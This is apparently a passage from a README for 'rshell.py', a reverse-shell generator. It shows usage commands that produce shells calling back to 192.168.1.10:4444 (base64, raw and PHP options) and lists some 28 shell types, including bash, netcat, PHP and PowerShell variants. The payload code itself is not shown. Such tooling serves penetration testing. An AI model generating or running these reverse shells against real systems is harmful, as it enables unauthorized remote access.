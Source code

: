 ```bash
./rshell.py 192.168.1.10 4444 -e base64
```

Save the command to a file:

```bash
./rshell.py 192.168.1.10 4444 -s shell.txt
```

Output only the command without additional formatting:

```bash
./rshell.py 192.168.1.10 4444 --raw
```

Generate a PHP reverse shell without stabilization tips:

```bash
./rshell.py 192.168.1.10 4444 -l php --no-tips
```

## Available Shells

### Basic Shells

- **bash**: Basic bash TCP reverse shell
- **python**: Python socket-based reverse shell
- **php**: Standard PHP reverse shell (recommended)
- **perl**: Perl socket-based reverse shell
- **nc**: Netcat reverse shell with `-e` option
- **ruby**: Ruby socket-based reverse shell

### Extended Shells

- **powershell**: PowerShell reverse shell with stream handling
- **java**: Java runtime reverse shell
- **golang**: Go TCP reverse shell
- **socat**: Socat reverse shell
- **awk**: AWK reverse shell
- **lua**: Lua socket-based reverse shell

### Shell Variants

- **php-system**: PHP shell using `system()`
- **php-passthru**: PHP shell using `passthru()`
- **php-shell_exec**: PHP shell using `shell_exec()`
- **php-popen**: PHP shell using `popen()`
- **php-proc_open**: PHP shell using `proc_open()`
- **perl-pipe**: Perl reverse shell using pipe
- **perl-fork**: Perl reverse shell using fork
- **python-export**: Python reverse shell using environment variables
- **bash-196**: Bash reverse shell using file descriptor 196
- **nc-mkfifo**: Netcat reverse shell using named pipe
- **python-short**: Shortened Python reverse shell
- **bash-tcp**: Bash reverse shell using TCP
- **nc-e**: Netcat reverse shell with `-e` flag
- **nc-c**: Netcat reverse shell with `-c` flag
- **ruby-shell**: Ruby reverse shell with file descriptor
- **xterm**: X11 terminal reverse shell
